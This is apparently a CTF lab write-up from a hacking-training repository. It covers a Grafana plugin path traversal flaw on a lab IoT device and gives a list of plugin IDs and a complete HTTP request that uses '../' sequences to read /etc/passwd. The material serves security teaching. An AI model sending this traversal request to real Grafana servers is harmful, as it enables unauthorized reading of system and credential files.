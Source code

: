 # IoT Hacking CLUS CTF Flags

The following are the CTF flags for the grafana vulnerability in the IoT device:

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use ../ to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as alertlist, here are some of common plugin ids:
```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```
Send following request to retrieve the **/etc/passwd ** (you can replace the alertlist with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: http://192.168.3.126:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```
<img width="791" alt="image" src="https://github.com/The-Art-of-Hacking/h4cker/assets/1690898/13f46b3b-1948-4f6e-a6bf-bf28a3c4fc05">
